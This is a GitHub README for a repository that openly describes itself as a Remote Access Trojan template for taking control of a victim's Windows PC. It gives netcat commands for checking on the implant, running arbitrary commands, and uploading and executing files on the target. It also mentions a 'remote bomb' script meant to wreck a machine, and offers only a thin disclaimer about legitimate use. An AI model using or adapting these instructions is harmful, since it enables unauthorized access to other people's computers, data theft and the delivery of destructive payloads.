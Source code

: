 ### note:
> This doesn't have to be used for malicious intent, you can use it like a remote terminal. just be careful!

---

# What is this?

This repo consists of essentially a Remote Access Trojan (RAT) template. It allows an attacker to remotely access and control a victim's computer(kinda), execute commands, upload files and execute them, and potentially steal sensitive data or deploy malware. THIS IS MALWARE!

# How to use & info:

## rat-v1.py
Description - This is a simple easily editable python script that uses remote execution using termux to execute commands on a windows desktop!

### How to use
On your phone using Termux, you can use `nc` (Netcat) to interact with the script:
* **Ping the script** (check if it's running):
  ```
  echo "ping" | nc {PC_IP_ADDRESS} 9999
  ```

* **Execute a command**:
  ```
  echo "exec <your_command_here>" | nc {PC_IP_ADDRESS} 9999
  ```
  
> NOTE: Replace {PC_IP_ADDRESS} with the IP address of your Windows PC. Make sure your firewall allows connections on port 9999.
---


## rat-v2.py
Description - This is the same as `rat-v1.py` but you can now upload and execute a file from your phone to your pc.

### How to use
On your phone using Termux, you can use `nc` (Netcat) to interact with the script:
* **Ping the script** (check if it's running):
  ```
  echo "ping" | nc {PC_IP_ADDRESS} 9999
  ```

* **Execute a command**:
  ```
  echo "exec <your_command_here>" | nc {PC_IP_ADDRESS} 9999
  ```

* **Upload a file** to the Windows PC
  ```
  echo "upload your_file_name.exe" | nc {PC_IP_ADDRESS} 9999
  cat your_file_name.exe | nc {PC_IP_ADDRESS} 9999
  ```

* **Execute the uploaded file:**
  ```
  echo "exec your_file_name.exe" | nc {PC_IP_ADDRESS} 9999
  ```

> NOTE: Replace `your_file_name.exe` with the file you want to upload and `{PC_IP_ADDRESS}` with the IP address of your Windows PC.


---

# src/bomb.py
(this is an example on how you can make a "remote bomb" out of this script lol)

* this will destroy a pc(not literaly) if executed properly

---

# oth/

* other versions of the script(s) made in diffrent languages.
